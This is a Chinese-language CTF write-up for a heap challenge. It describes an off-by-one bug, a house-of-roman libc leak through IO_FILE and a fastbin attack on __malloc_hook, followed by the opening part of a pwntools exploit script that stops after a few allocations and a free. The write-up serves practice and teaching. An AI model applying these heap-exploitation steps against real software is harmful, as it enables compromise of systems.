 远程环境为16.04漏洞点在`edit`有`off-by-one`，但是要回车跳出循环或者将`size+1`的空间全部填满。

思路还是很简单的，使用`house of roman`来申请`io`leak libc。然后使用`fastbin attack`覆写`__malloc_hook`。

难点在堆的布局，

首先，申请五个chunk，chunk_3是`fastbin victim`大小为0x70，在这个chunk尾部伪造一个0x20大小的chunk，用以后面进行分割，并将其释放掉。

再通过`off-by-one`chunk_0伪造一个`unsorted chunk = chunk_1 + chunk_2 + chunk_3`，这个chunk要包含`fastbin victim`。

`edit`chunk_1将chunk_2的大小设为0x61，free(unsorted chunk)，这时再malloc(0x130)，`unsorted chunk`就会被分割，`unsorted bin`中只留下了chunk_3，而chunk_3在开始被加入了`fastbin`中。

free(chunk_2)，chunk_2被我们修改了大小，其尾部包含了`chunk_3`的头部，所以我们可以覆写其`fd`的低字节使其指向io_file就可以leak libc。

之后就简单的`fastbin attack了。

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
from struct import pack
import sys

leak = lambda name,addr: log.success('{0} addr ---> {1}'.format(name, hex(addr)))
context.arch="amd64"
context.terminal = ['tmux', 'splitw', '-h']
context.log_level="DEBUG"
binary='./pwn'

#gdb.attach(sh)
elf = ELF(binary,checksec=False)

def add(idx, size, content):
    sh.sendlineafter('choice:', '1')
    sh.sendlineafter('index:', str(idx))
    sh.sendlineafter('size:', str(size))
    sh.sendafter('data:', str(content))

def edit(idx, content):
    sh.sendlineafter('choice:', '3')
    sh.sendlineafter('index:', str(idx))
    sh.sendafter('data:', str(content))

def delete(idx):
    sh.sendlineafter('choice:', '2')
    sh.sendlineafter('index:', str(idx))


for i in range(0x100):
        try:
            sh = process('./pwn')
            # sh = remote("101.200.201.114", 30003)
            add(0, 0xf8, 'a'*8)
            add(1, 0xf8, 'a'*8)
            add(2, 0x30, 'a'*8)
            add(3, 0x60, ('a'*8).ljust(0x18, '\x00') + p64(0x21))
            add(4, 0x100, 'a'*8)

            add(5, 0x68, 'a'*8)
            add(6, 0x30, 'a'*8)
            add(7, 0x60, ('a'*8).ljust(0x18, '\x00') + p64(0x21))
            add(8, 0x60, 'a'*8)
            
            delete(3)
```